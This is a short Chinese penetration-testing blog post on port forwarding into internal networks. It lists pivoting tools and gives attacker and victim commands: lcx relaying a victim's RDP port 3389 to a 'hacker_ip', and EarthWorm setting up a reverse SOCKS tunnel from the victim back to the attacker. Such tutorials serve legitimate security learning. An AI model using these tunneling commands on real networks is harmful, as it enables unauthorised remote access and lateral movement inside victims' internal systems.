 ```yaml
---
draft: false
date: 2016-08-08 19:33:45
title: 端口转发
description: 
categories:
  - Pentest
tags:
  - 端口转发
---
```


### 0x00 应用场景
* 内网IP的80端口通过端口映射到了外网IP的80端口上
* 内网的Web服务器通过外网IP反向代理(如Nginx)
也就是说Web服务器在内网中

### 0x01 判断Web是否为内网
* 向ping域名，查看IP是外网
* 用webshell查看ip却是内网IP

### 0x02 端口转发工具
* lcx
* htran
* [EarthWorm](http://rootkiter.com/EarthWorm/?_blank)
* netsh
* [reGeorg](https://github.com/sensepost/reGeorg?_blank)
* meterpreter porfwd

### 0x03 lcx端口转发
* Hacker：lcx.exe -listen 500 8888
* Victim：lcx.exe -slave hacker_ip 500 victim_ip 3389
* Hacker：cmd mstsc hacker_ip:500

![hacker运行lcx](/img/post/privilge_escalation_win_hacker_run_lcx.png)
![vimctim端运行lcx](/img/post/privilge_escalation_win_vimctim_run_lcx.png)
![hacker远程连接](/img/post/privilge_escalation_win_hacker_remote_conn.png)
![hacker远程连接成功](/img/post/privilge_escalation_win_hacker_remote_conn_success.png)

### 0x04 EarchWorm端口转发
* Hacker：./ew -s rcsocks -l 1080 -e 8888
* Victim：./ew -s rssocks -d hacker_ip -e 8888
![earchworm原理](/img/post/privilge_escalation_win_earchworm.png)
#### 1. 启动EarchWorm
![hacker服务器启动ew](/img/post/privilge_escalation_win_linux_run_ew.png)
![victim启动ew](/img/post/privilge_escalation_win_victim_run_ew.png)
![victim连接hacker服务器](/img/post/privilge_escalation_win_linux_get_victim_conn.png)
#### 2. hacker主机使用代理
![hacker内网主机设置代理1](/img/post/privilge_escalation_win_hacker_set_proxy1.png)
![hacker内网主机设置代理2](/img/post/privilge_escalation_win_hacker_set_proxy2.png)
#### 3. hacker内网主机连接目标的内网主机
![hacker连接内网主机](/img/post/privilge_escalation_win_ew_hacker_remote_conn.png)
![hacker连接内网主机成功](/img/post/privilge_escalation_win_ew_hacker_remote_conn_success.png)
